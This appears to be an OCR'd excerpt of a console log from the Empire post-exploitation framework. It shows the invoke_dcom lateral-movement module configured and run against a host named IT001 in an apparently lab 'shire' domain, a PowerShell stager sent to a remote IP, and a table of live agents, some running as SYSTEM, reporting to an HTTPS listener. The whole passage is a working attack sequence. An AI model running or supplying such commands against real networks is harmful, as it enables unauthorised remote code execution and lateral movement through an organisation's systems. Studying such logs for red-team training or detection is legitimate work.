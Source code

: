 ```
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Method       True        ShellWindows              COM method to use. MMC20.Application,She
                                                     llWindows,ShellBrowserWindow,ExcelDDE   
  Agent        True        V6W3TH8Y                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_dcom) > set Listener https
(Empire: powershell/lateral_movement/invoke_dcom) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_dcom) > execute
[*] Tasked V6W3TH8Y to run TASK_CMD_WAIT
[*] Agent V6W3TH8Y tasked with task ID 3
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_dcom
(Empire: powershell/lateral_movement/invoke_dcom) > Completed


[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent YR1FKZ6A checked in
[+] Initial agent YR1FKZ6A from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to YR1FKZ6A at 10.0.10.103

(Empire: powershell/lateral_movement/invoke_dcom) > agents 

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 21:11:59  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 21:11:59  https           
 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 21:11:58  https           

 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 21:11:58  https           
 XSZ91N7T ps 172.18.39.105   IT001             *SHIRE\SYSTEM           powershell         4172   5/0.0    2019-05-18 21:11:58  https           
 EXBNZYTS ps 172.18.39.105   IT001             *SHIRE\SYSTEM           powershell         6728   5/0.0    2019-05-18 21:12:02  https           

 YR1FKZ6A ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         5228   5/0.0    2019-05-18 21:12:01  https           

(Empire: agents) >
```